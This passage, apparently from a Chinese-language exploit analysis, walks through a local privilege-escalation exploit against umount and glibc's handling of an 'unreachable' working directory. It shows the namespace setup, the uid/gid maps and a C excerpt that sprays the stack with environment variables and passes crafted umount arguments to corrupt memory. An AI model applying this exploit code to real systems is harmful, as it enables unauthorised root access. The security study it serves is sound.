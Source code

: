 所创建的各种类型文件如下：
```
$ find /proc/10173/cwd/ -type d
/proc/10173/cwd/
/proc/10173/cwd/(unreachable)
/proc/10173/cwd/(unreachable)/tmp
/proc/10173/cwd/(unreachable)/tmp/_nl_load_locale_from_archive
/proc/10173/cwd/(unreachable)/tmp/_nl_load_locale_from_archive/X.x
/proc/10173/cwd/(unreachable)/tmp/_nl_load_locale_from_archive/X.x/LC_MESSAGES
/proc/10173/cwd/(unreachable)/tmp/_nl_load_locale_from_archive/X.X
/proc/10173/cwd/(unreachable)/tmp/_nl_load_locale_from_archive/X.X/LC_MESSAGES
/proc/10173/cwd/(unreachable)/tmp/_nl_load_locale_from_archive/C.UTF-8
/proc/10173/cwd/(unreachable)/tmp/_nl_load_locale_from_archive/C.UTF-8/LC_MESSAGES
/proc/10173/cwd/(unreachable)/x
$ find /proc/10173/cwd/ -type f
/proc/10173/cwd/DATEMSK
/proc/10173/cwd/(unreachable)/tmp/_nl_load_locale_from_archive/C.UTF-8/LC_MESSAGES/util-linux.mo
/proc/10173/cwd/ready
$ find /proc/10173/cwd/ -type l
/proc/10173/cwd/(unreachable)/tmp/down
$ find /proc/10173/cwd/ -type p
/proc/10173/cwd/(unreachable)/tmp/_nl_load_locale_from_archive/X.X/LC_MESSAGES/util-linux.mo
```

然后在父进程里可以对子进程进行设置，通过设置 `setgroups` 为 deny，可以限制在新 namespace 里面调用 setgroups() 函数来设置 groups；通过设置 `uid_map` 和 `gid_map`，可以让子进程自己设置好挂载点。结果如下：
```
$ cat /proc/10173/setgroups 
deny
$ cat /proc/10173/uid_map 
         0        999          1
$ cat /proc/10173/gid_map 
         0        999          1
```

这样准备工作就做好了。进入第二部分 `attemptEscalation()` 函数：
```c
int attemptEscalation() {
  [...]
  pid_t childPid=fork();
  if(!childPid) {
    [...]
    result=chdir(targetCwd);	// 改变当前工作目录为 targetCwd

// Create so many environment variables for a kind of "stack spraying".
    int envCount=UMOUNT_ENV_VAR_COUNT;
    char **umountEnv=(char**)malloc((envCount+1)*sizeof(char*));
    umountEnv[envCount--]=NULL;
    umountEnv[envCount--]="LC_ALL=C.UTF-8";
    while(envCount>=0) {
      umountEnv[envCount--]="AANGUAGE=X.X";		// 喷射栈的上部
    }
// Invoke umount first by overwriting heap downwards using links
// for "down", then retriggering another error message ("busy")
// with hopefully similar same stack layout for other path "/".
    char* umountArgs[]={umountPathname, "/", "/", "/", "/", "/", "/", "/", "/", "/", "/", "down", "LABEL=78", "LABEL=789", "LABEL=789a", "LABEL=789ab", "LABEL=789abc", "LABEL=789abcd", "LABEL=789abcde", "LABEL=789abcdef", "LABEL=789abcdef0", "LABEL=789abcdef0", NULL};
    result=execve(umountArgs[0], umountArgs, umountEnv);
  }
  [...]
  int escalationPhase=0;
  [...]
  while(1) {
    if(escalationPhase==2) {	// 阶段 2 => case 3
```